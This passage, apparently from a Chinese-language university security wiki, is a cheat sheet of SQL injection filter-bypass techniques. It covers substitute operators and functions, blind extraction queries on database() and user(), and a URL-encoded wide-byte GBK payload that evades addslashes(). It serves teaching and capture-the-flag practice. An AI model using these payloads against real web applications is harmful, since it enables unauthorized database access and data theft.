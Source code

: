 `select 1,2`

`select * from (select 1)a join (select 2)b`

1. `like/rlike`

`select ascii(mid(user(),1,1))=80`

`select user() like 'r%'`

1. `offset`

`select * from news limit 0,1`

`select * from news limit 1 offset 0`

### 比较符号 `(<=>)` 被过滤

1. `=` 用 `like, rlike, regexp` 代替

`select * from users where name like 'Liki4'`

`select * from users where name rlike 'Liki4'`

`select * from users where name regexp 'Liki4'`

1. `<>` 用 `greatest()、least()`

`select * from users where id=1 and ascii(substr(database(),0,1))>64`

`select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64`

1. `between`

`select * from users where id between 1 and 1;`

### `or and xor not` 被过滤

1. `and = &&`
2. `or = ||`
3. `xor = |`
4. `not = !`

### 常用函数被过滤

1. `hex()、bin() = ascii()`
2. `sleep() = benchmark()`
3. `concat_ws() = group_concat()`
4. `mid()、substr() = substring()`
5. `@@user = user()`
6. `@@datadir = datadir()`

### 宽字节注入

在 GB2312、GBK、GB18030、BIG5、Shift_JIS 等编码下来吃掉 ASCII 字符的方法，可以用来绕过 `addslashes()`
`id=0%df%27%20union%20select%201,2,database();`

![](https://pic-hdu-cs-wiki-1307923872.cos.ap-shanghai.myqcloud.com/boxcnaRtyUGC0sX3btnFIgpDCob.png)

